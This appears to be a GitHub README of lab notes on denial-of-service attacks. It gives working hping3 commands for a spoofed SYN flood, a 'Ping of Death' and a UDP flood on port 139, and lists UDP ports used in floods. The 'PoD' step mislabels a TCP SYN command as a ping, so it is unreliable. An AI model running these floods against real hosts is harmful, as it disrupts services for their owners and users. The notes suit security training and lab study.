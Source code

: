 SYN-attack

![1](https://github.com/Kr1shna02/hack-flow/assets/117007783/7654cca6-7cdf-44da-8d66-7dd70cdba58d)

- -S: sets the SYN flag; 
- -a: spoofs the IP address; 
- -p: specifies the destination port;
- --flood: sends a huge number of packets.

Traffic in target system

![2](https://github.com/Kr1shna02/hack-flow/assets/117007783/a7fc8bd1-7e1e-44f0-af1a-ef9aac90aa90)

 PoD attack -In ping we send huge data

command ```hping3 -d 65538 -S -p 21 --flood (Target IP Address)```
- -d: specifies data size;
- -S: sets the SYN flag;
- -p:destination port;
- --flood: sends a huge number of packets.
In wireshark in target machine we can check for the large packet flow.

 UDP application layer flood attack

 Scan the target

 ```nmap -p 139 (Target IP Address)```
  we will use NetBIOS port 139 to perform a UDP application layer flood attack. If 139 port is open start attack.

   Command ```hping3 -2 -p 139 --flood (Target IP Address)```
- -2:specifies UDP mode

Some of the UDP based application layer protocols that attackers can employ to flood target networks include:

+ CharGEN (Port 19)
+ SNMPv2 (Port 161)
+ QOTD (Port 17)
+ RPC (Port 135)
+ SSDP (Port 1900)
+ CLDAP (Port 389)
+ TFTP (Port 69)
+ NetBIOS (Port 137,138,139)
+ NTP (Port 123)
+ Quake Network Protocol (Port 26000)
+ VoIP (Port 5060)

